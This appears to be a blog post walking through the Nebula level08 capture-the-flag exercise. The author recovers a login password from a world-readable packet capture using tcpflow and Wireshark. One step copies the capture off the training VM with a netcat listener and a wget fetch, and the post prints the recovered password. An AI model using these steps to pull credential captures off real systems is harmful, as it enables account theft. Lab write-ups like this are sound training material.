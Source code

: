 ```yaml
---
layout: post
title: "World readable files strike again"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 08](http://exploit-exercises.com/nebula/level08) Agenda**: "Check what that user was up to, and use it to log into flag08 account."

<center>
	<img src="/images/2015-04-04-world_readable_files_strike_again/strikes-again.jpg">
</center>
<br />
All right!!! So basically, what do we have to start with, is a single [pcap](http://en.wikipedia.org/wiki/Pcap) file format:
{% highlight sh linenos %}
-rw-r--r-- 1 root   root    8302 2011-11-20 21:22 capture.pcap
{% endhighlight %}
If working with TCP based protocols it can be very helpful to see the data from a TCP stream in the way that the application layer sees it. Perhaps you are looking for passwords in a Telnet stream, or you are trying to make sense of a data stream (From the "[_7.2. Following TCP streams_](https://www.wireshark.org/docs/wsug_html_chunked/ChAdvFollowTCPSection.html)" wireshark doc ref).


Without doubts [Wireshark](http://en.wikipedia.org/wiki/Wireshark) is a wounderful tool (nonetheless, we aren't able to use [X11-server](https://en.wikipedia.org/wiki/X_Window_System) on Nebula VM. Actually, all is [possible =)](http://www.quora.com/How-valid-are-the-ideas-in-Athenes-theory-of-everything) but that's definitely is not the best way). It worth to notice that there's also exist console version called [tshark](https://www.wireshark.org/docs/man-pages/tshark.html) but unfortunately, attempt to setup it on VM due to some failures was unsuccessful. That's why I had to use what was at hand, in particular [tcpflow](http://www.circlemud.org/jelson/software/tcpflow/):
{% highlight sh linenos %}
level08@nebula:/home/flag08$ tcpflow -cer ./capture.pcap
{% endhighlight %}
<center>
	<img src="/images/2015-04-04-world_readable_files_strike_again/screen_0.png">
</center>
Blue color indicates client to server flow and the red one is server to client. The default behavior in case of printing to file/console is converting all non-printable characters to the "." character. We have four dots in the password, let’s not guessing but making clear for sure what it exactly is by using wireshark (cannot escape from fate) on the outer host. 

Firstly need to pass this instance file out and [netcat](http://en.wikipedia.org/wiki/Netcat) will help in this.
{% highlight sh linenos %}
level08@nebula:/home/flag08$ nc -l 8888 < ./capture.pcap
# And then on the outer host:
nobody@home$ wget -O capture.pcap 192.168.56.102:8888
{% endhighlight %}
Secondly, check out on the wireshark:
<center>
	<img src="/images/2015-04-04-world_readable_files_strike_again/screen_1.png">
</center>
If grab the [ASCII](http://www.asciitable.com/) table it appears that "_7F_" hex represents [delete](http://en.wikipedia.org/wiki/Delete_character) and "_0D_" - [carriage return](http://en.wikipedia.org/wiki/Carriage_return) symbols respectively. The final note as conclusion, after applying "_DEL_", the passphrase (flag08 account) becomes - "_backd00Rmate_". Hell yeah (òÓ,)_\,,/ !